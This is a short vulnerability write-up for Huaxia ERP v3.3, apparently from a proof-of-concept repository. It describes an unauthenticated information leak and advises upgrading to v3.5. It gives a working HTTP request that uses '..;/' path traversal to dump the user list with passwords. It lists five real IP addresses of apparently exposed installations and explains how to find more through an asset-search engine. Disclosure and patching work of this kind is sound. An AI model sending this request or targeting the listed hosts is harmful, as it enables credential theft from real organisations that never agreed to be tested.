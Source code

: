 

## Product Introduction

Guan Yijia ERP (formerly known as Huaxia ERP) is based on the SpringBoot framework and SaaS model, aiming to provide open-source and user-friendly ERP software for small and medium-sized enterprises. Currently, it focuses on inventory management, finance, and production functions. The main modules include retail management, procurement management, sales management, warehouse management, financial management, report query, and system management, etc. It supports special features such as advance payment, income and expenditure, warehouse transfer, assembly and disassembly, and orders. It has reports such as product inventory and entry and exit statistics. At the same time, it has detailed and comprehensive control over roles and permissions, down to each button and menu.

## Vulnerability Description

华夏ERP系统存在信息泄露漏洞，通过请求含有payload的数据包即可返回用户名、密码、职级等敏感信息，由于漏洞利用难度简单，建议使用者立刻升级到v3.5及以上版本，防止此漏洞被利用。

## Examples URLs affected by the vulnerability

```
http://121.228.124.38:8088/,https://222.71.147.35/,http://39.106.129.54:8081/,http://8.138.91.130:8088/,http://101.37.118.74:8890/
```

## POC

```http
GET /jshERP-boot/platformConfig/getPlatform/..;/..;/..;/jshERP-boot/user/getAllList HTTP/1.1
Host: <target host>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

## Reproduction

Use the network asset mapping engine to search for "jshERP-boot" and enter a website that uses Huaxia ERP v3.3, no login required, and send a packet to get a response:

![image-20250225154253578](./image-20250225154253578.png)

The browser displays the following:

![image-20250225154604745](./image-20250225154604745.png)
